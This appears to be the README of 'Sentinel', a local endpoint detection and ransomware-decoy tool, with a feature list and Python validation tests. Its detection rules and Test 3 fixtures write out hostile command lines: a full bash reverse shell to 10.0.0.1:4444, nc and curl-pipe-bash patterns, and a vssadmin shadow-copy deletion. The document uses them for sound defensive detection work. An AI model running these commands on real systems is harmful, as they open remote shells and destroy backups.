

# Sentinel (SentinelAI) — System Architecture & Feature Reference

## 1. Executive Overview
**Sentinel (SentinelAI)** is a stand-alone, zero-cloud **Endpoint Detection & Response (EDR) and Active Deception platform** engineered to run seamlessly across both **Linux (Fedora, Ubuntu, Debian, RHEL)** and **Windows** operating systems. 

Unlike traditional cloud-tethered EDR agents or passive network loggers, Sentinel operates fully autonomously in air-gapped or localized environments. It bridges real-time system log ingestion, an in-memory parent-to-child process creation graph (DAG), proactive ransomware decoy canaries, living-off-the-land (LotL) behavioral heuristics, pre-termination digital forensics, and an on-device hybrid AI engine.

---

## 2. Complete System Architecture Diagram



---

## 3. Comprehensive Feature Inventory

### 3.1 Platform Abstraction Layer ([`core/platform_adapter.py`](ids_project/core/platform_adapter.py))
* **Unified Privilege Detection:** Accurately identifies root (`os.geteuid() == 0`) on Linux and elevated token privileges via `ctypes.windll.shell32.IsUserAnAdmin()` on Windows.
* **Process Protection Whitelist:** Prevents catastrophic operating system lockups by protecting essential system daemons (`systemd`, `init`, `kthreadd`, `sshd`, `dbus-daemon`, `systemd-journald`) on Linux and critical binaries (`lsass.exe`, `csrss.exe`, `wininit.exe`, `services.exe`) on Windows.
* **Native File Manager Integration:** Launches `xdg-open` on Linux desktop environments and `explorer /select,` on Windows.

### 3.2 Dual Pipeline Log Ingestion ([`core/log_reader.py`](ids_project/core/log_reader.py))
* **Linux Journal & Syslog Ingestion:** Ingests live system events using native `systemd-python` bindings, streams from `journalctl -f -o json`, or tails traditional `/var/log/` logs (`auth.log`, `secure`, `syslog`, `messages`).
* **Windows Event Log Ingestion:** Interfaces directly with `win32evtlog` to capture records across `Security`, `System`, and `Application` channels.
* **Normalized Event Schema:** Standardizes event properties into a unified dictionary (`event_id`, `source`, `event_type`, `time_generated`, `message`, `user`, `pid`).

### 3.3 Active Deception & Canary Decoys ([`core/canary_sentry.py`](ids_project/core/canary_sentry.py))
* **Alphabetical Trap Placement:** Deploys signed, tempting decoy documents (`!_financial_q4_audit_records.xlsx`, `!_confidential_passwords_vault.docx`, `!_system_recovery_backup_keys.txt`) in candidate directories (`Documents`, `~/.config`, `AppData`, `/tmp`). The `!` prefix guarantees they are hit first during recursive traversal.
* **Dual Monitoring Mechanism:** Real-time kernel notifications via `pyinotify` on Linux coupled with a secondary periodic SHA-256 hash watchdog across all platforms.
* **Automatic Culprit Attribution:** Inspects `/proc/<pid>/fd/` links and open file handles across running processes to identify the exact PID that modified or renamed the decoy.
* **Instant Freeze Containment:** Immediately calls `process_control.suspend_process(pid)` to freeze the ransomware in memory before user data is encrypted.

### 3.4 Process Lineage DAG & LotL Engine ([`core/process_tree.py`](ids_project/core/process_tree.py))
* **In-Memory Directed Acyclic Graph (DAG):** Tracks complete parent-child process families (`pid`, `ppid`, `name`, `cmdline`, `exe_path`, `user`, `start_time`).
* **Ephemeral Process Resilience:** Caches process execution metadata so that short-lived droppers terminating in <10ms are still resolved and attributed in the tree.
* **Living-off-the-Land (LotL) Heuristics:**
  * **Linux WebShells:** Flags web/database servers (`nginx`, `httpd`, `node`, `php-fpm`) spawning interactive shells (`/bin/sh`, `/bin/bash`).
  * **Linux Reverse Shells:** Catches network pipe redirections (`bash -i >& /dev/tcp/...`, `nc -e /bin/sh`, Python PTY spawns, `curl ... | bash`).
  * **Windows Macro Droppers:** Detects Office/PDF binaries spawning script engines or command shells (`powershell.exe`, `wscript.exe`, `mshta.exe`).
  * **Windows Shadow Wipes:** Identifies backup deletion commands (`vssadmin delete shadows`, `wbadmin delete catalog`).

### 3.5 Process Enrichment & Tracking ([`core/process_tracker.py`](ids_project/core/process_tracker.py))
* Enriches incoming events with live process context: `ppid`, `parent_name`, `cmdline`, `lineage_str` (e.g., `systemd (1) -> nginx (1001) -> sh (2002)`), and attached `lotl_rule` detections.

### 3.6 Multi-Tier Decision Engine ([`core/decision_engine.py`](ids_project/core/decision_engine.py) & [`core/rule_engine.py`](ids_project/core/rule_engine.py))
* **Heuristic Scoring:** Brute-force sliding windows (SSH, RDP, sudo authentication failures), suspicious directory execution paths (`/tmp/`, `/dev/shm/`, `\AppData\Local\`), and flood throttling.
* **On-Device SLM (Ollama):** Evaluates elevated alerts (`MEDIUM` / `HIGH`) with local models (`deepseek-coder:6.7b`, `llama3.2`) to output MITRE ATT&CK mappings and plain-English incident narratives.
* **Consensus & Pub-Sub:** Maximization algorithm broadcasting alerts to the desktop UI, system tray, and `alerts.json`.

### 3.7 Modernized SIEM Desktop UI ([`ui/desktop_app.py`](ids_project/ui/desktop_app.py))
* **Responsive Dark Theme:** Formatted with a dark cybersecurity palette (`#121214`), aligned top navigation bar, and color-coded status badges.
* **Real-Time Metric Bar:** Visual pill indicators tracking `CRITICAL/HIGH`, `SUSPICIOUS/MED`, `INFORMATIONAL/LOW`, `NORMAL`, and `TOTAL SCANNED`.
* **Multi-Pane Layout:** Resizable panes for Live Event Console, Active Threat Interceptor (with action buttons: *Open Location*, *Suspend*, *End Task*), and Matplotlib analytics charts with `tight_layout` alignment.

### 3.8 Dual Daemon Runner & Tray Support ([`service/service_runner.py`](ids_project/service/service_runner.py), [`tray/tray_app.py`](ids_project/tray/tray_app.py))
* **Linux systemd Unit:** Self-generating unit file (`/etc/systemd/system/sentinel.service`) managed via standard `systemctl` commands.
* **Windows Service Framework:** Full compatibility with Windows Service Manager (`IDSService`).
* **Cross-Platform Tray:** System tray status icon with native desktop notifications and `fcntl`/`msvcrt` single-instance locks.

---

## 4. Feature Validation Test Suite

You can execute the following sample tests to validate every feature in the project.

### Test 1: Cross-Platform OS & Protection Whitelist
Validates OS detection, privilege identification, and that critical system daemons/binaries are protected from termination.

```bash
python3 -c "
import sys; sys.path.insert(0, 'ids_project')
from core.platform_adapter import IS_WINDOWS, IS_LINUX, is_admin, is_process_protected

print(f'[+] Platform: Linux={IS_LINUX}, Windows={IS_WINDOWS}')
print(f'[+] Elevated Privileges: {is_admin()}')

# Verify system whitelist
assert is_process_protected('systemd') == True, 'systemd must be protected'
assert is_process_protected('sshd') == True, 'sshd must be protected'
assert is_process_protected('lsass.exe') == True, 'lsass.exe must be protected'
assert is_process_protected('curl') == False, 'curl should not be protected'
print('[✓] Test 1 Passed: Platform adapter and process whitelist verified.')
"
```

---

### Test 2: Active Deception & Ransomware Canary Tripwire
Validates that decoy canary files are deployed, modification attempts are caught by `pyinotify`/hash watchdogs, and containment alerts are raised.

```bash
python3 -c "
import sys, time
from pathlib import Path
sys.path.insert(0, 'ids_project')
from core.canary_sentry import CanarySentry
from core.decision_engine import subscribe

test_dir = Path('/tmp/sentinel_canary_test')
test_dir.mkdir(parents=True, exist_ok=True)

sentry = CanarySentry(target_dirs=[test_dir])
sentry.start()
assert len(sentry.canaries) > 0, 'Canary files should be deployed'

tripped_alerts = []
subscribe(lambda ev, sev: tripped_alerts.append((sev, ev.get('message', ''))))

# Simulate ransomware tampering
sample_canary = Path(list(sentry.canaries.keys())[0])
time.sleep(0.5)
with open(sample_canary, 'ab') as f:
    f.write(b'\nTEST_RANSOMWARE_ENCRYPTION_BYTES')

time.sleep(1.5)
sentry.stop(cleanup=True)

assert len(tripped_alerts) > 0, 'Tampering must trigger an alert'
assert tripped_alerts[0][0] == 'HIGH', 'Canary trip must be flagged as HIGH'
print(f'[✓] Test 2 Passed: Canary tripwire intercepted tamper event on {sample_canary.name}')
"
```

---

### Test 3: Process Lineage DAG & Living-off-the-Land (LotL) Engine
Validates parent-to-child lineage construction, ancestor string formatting, and behavioral LotL detection for WebShells, reverse shells, Office macro droppers, and shadow wipes.

```bash
python3 -c "
import sys; sys.path.insert(0, 'ids_project')
from core.process_tree import get_process_tree

tree = get_process_tree()
tree.snapshot_running_processes()

# 1. Test WebShell Detection (Web Server -> Shell)
tree.add_or_update(pid=1001, ppid=1, name='nginx', cmdline='nginx -g daemon off;')
tree.add_or_update(pid=2002, ppid=1001, name='sh', cmdline='/bin/sh -c id')
node_sh = tree.get_node(2002)
is_susp, sev, rule = tree.evaluate_node(node_sh)
assert is_susp and 'WebShell' in rule, 'WebShell execution must be flagged'

# 2. Test Reverse Shell Pipeline
tree.add_or_update(pid=3003, ppid=100, name='bash', cmdline='bash -i >& /dev/tcp/10.0.0.1/4444 0>&1')
node_rev = tree.get_node(3003)
is_rev, _, rev_rule = tree.evaluate_node(node_rev)
assert is_rev and 'Reverse_Shell' in rev_rule, 'Reverse shell pipeline must be flagged'

# 3. Test Windows Office Macro Dropper
tree.add_or_update(pid=4001, ppid=50, name='winword.exe', cmdline='winword.exe doc.docm')
tree.add_or_update(pid=4002, ppid=4001, name='powershell.exe', cmdline='powershell.exe -enc ...')
node_win = tree.get_node(4002)
is_win, _, win_rule = tree.evaluate_node(node_win)
assert is_win and 'Office_Macro_Dropper' in win_rule, 'Office macro dropper must be flagged'

# 4. Test Windows Shadow Copy Deletion
tree.add_or_update(pid=5001, ppid=100, name='cmd.exe', cmdline='vssadmin.exe delete shadows /all /quiet')
node_shadow = tree.get_node(5001)
is_shad, _, shad_rule = tree.evaluate_node(node_shadow)
assert is_shad and 'Shadow_Wipe' in shad_rule, 'Shadow copy wipe must be flagged'

# 5. Verify Lineage String Formatting
lineage_str = tree.format_lineage_str(2002)
assert 'nginx (1001) -> sh (2002)' in lineage_str, 'Lineage string must reflect ancestor chain'

print('[✓] Test 3 Passed: Process Lineage DAG and all LotL heuristics validated.')
"
```

---

### Test 4: Ephemeral Process Attribution & Process Tracker Enrichment
Validates that `process_tracker.enrich` successfully embeds parent names, command-line strings, lineage chains, and resolves short-lived terminated processes.

```bash
python3 -c "
import sys; sys.path.insert(0, 'ids_project')
from core.process_tree import get_process_tree
from core import process_tracker

tree = get_process_tree()
# Simulate a dropper that terminated in memory
tree.add_or_update(pid=9991, ppid=1, name='dropper.sh', cmdline='/bin/bash /tmp/dropper.sh')

raw_event = {'event_id': 0, 'source': 'dropper.sh', 'pid': 9991, 'message': 'curl payload'}
enriched = process_tracker.enrich(raw_event)

assert enriched['pid'] == 9991, 'PID must match'
assert enriched['cmdline'] == '/bin/bash /tmp/dropper.sh', 'Command line must be preserved'
assert enriched['lineage_str'] != 'N/A', 'Lineage string must be generated'
print('[✓] Test 4 Passed: Ephemeral process enrichment and tracking verified.')
"
```

---

### Test 5: Sliding-Window Brute Force & Suspicious Path Heuristics
Validates sliding-window frequency tracking for authentication attempts and execution from suspicious paths (`/tmp/`, `/dev/shm/`, `\AppData\`).

```bash
python3 -c "
import sys; sys.path.insert(0, 'ids_project')
from core.rule_engine import evaluate_event

# 1. Suspicious Path Check
path_event = {'event_id': 0, 'source': 'bash', 'message': 'running script in /tmp/malware.sh', 'cmdline': ''}
assert evaluate_event(path_event) == 'HIGH', 'Execution in /tmp/ must be evaluated as HIGH'

# 2. Linux Auth Brute Force Sliding Window
user = 'admin_test'
for _ in range(4):
    res = evaluate_event({'event_id': 0, 'source': 'sshd', 'message': f'Failed password for {user}', 'user': user})
    assert res == 'MEDIUM', 'Initial attempts should be MEDIUM'

# 5th attempt breaches threshold
res_breach = evaluate_event({'event_id': 0, 'source': 'sshd', 'message': f'Failed password for {user}', 'user': user})
assert res_breach == 'HIGH', '5th attempt within window must breach threshold to HIGH'

print('[✓] Test 5 Passed: Sliding-window brute force and suspicious path rules verified.')
"
```

---

### Test 6: Live Log Ingestion (Console Mode)
Validates real-time log ingestion from Linux `systemd-journald` or Windows Event Logs.

```bash
# Execute in terminal (Press Ctrl+C after observing events)
python3 ids_project/main.py --console
```
*Expected Output:*
```text
Starting Sentinel IDS in console mode. Press Ctrl+C to stop.
[CANARY] Deployed 3 ransomware canary decoys.
[STATUS] Monitoring active on Linux systemd-journal...
[EVENT] systemd              | 0     | Started User Manager for UID 1000...
[EVENT] mongod               | 0     | AVC avc:  denied  { search } for  pid=...
```

---

### Test 7: Desktop SIEM UI Launch
Validates the modernized Tkinter dark theme layout, metric pills bar, and Matplotlib analytics canvas.

```bash
# On Linux (Fedora/Ubuntu with Wayland display access)
sudo -E python3 ids_project/main.py --desktop
```
*Expected Behavior:*
* Launches full-featured dark dashboard (`1240x880`).
* Navbar displays active platform tag (`[Linux (systemd)]` or `[Windows (Win32)]`).
* Real-time metric pills bar updates dynamically as events stream in.
* Double-buffered, non-overlapping Matplotlib bar and pie charts render threat distributions.
* Active Threats table surfaces culprit PIDs, PPIDs, and `[LotL Rule]` tags.

---

### Test 8: Linux systemd Service Daemon Lifecycle
Validates installation, startup, status query, and teardown of Sentinel as a system background service on Linux.

```bash
# Install systemd unit
sudo python3 ids_project/main.py --install

# Check service status via systemctl
systemctl status sentinel.service

# Remove service unit
sudo python3 ids_project/main.py --remove
```
